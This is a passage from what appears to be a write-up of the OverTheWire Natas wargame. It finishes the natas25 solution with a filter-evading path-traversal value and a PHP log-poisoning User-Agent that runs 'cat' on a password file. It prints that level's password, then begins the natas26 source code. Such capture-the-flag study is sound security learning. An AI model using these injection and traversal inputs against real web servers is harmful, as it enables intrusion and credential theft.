 We can access this log file using the value `..././..././..././..././..././var/www/natas/natas25/logs/natas25_ei2d72v8lmilntgjr7cnuas257.log`  and we can change the value of user agent in it which will be reflected in the page. In that we can use the user agent 

```php
<?php system('cat /etc/natas_webpass/natas26'); ?>
```

which will give the password

password : **oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T**

### <a id="26">natas26</a>

Source code : 

```php+HTML
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src="http://natas.labs.overthewire.org/js/wechall-data.js"></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas26", "pass": "<censored>" };</script></head>
<body>
<?php
    // sry, this is ugly as hell.
    // cheers kaliman ;)
    // - morla
    
    class Logger{
        private $logFile;
        private $initMsg;
        private $exitMsg;
      
        function __construct($file){
            // initialise variables
            $this->initMsg="#--session started--#\n";
            $this->exitMsg="#--session end--#\n";
            $this->logFile = "/tmp/natas26_" . $file . ".log";
      
            // write initial message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$initMsg);
            fclose($fd);
        }                       
      
        function log($msg){
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$msg."\n");
            fclose($fd);
        }                       
      
        function __destruct(){
            // write exit message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->exitMsg);
            fclose($fd);
        }                       
    }
 
    function showImage($filename){
```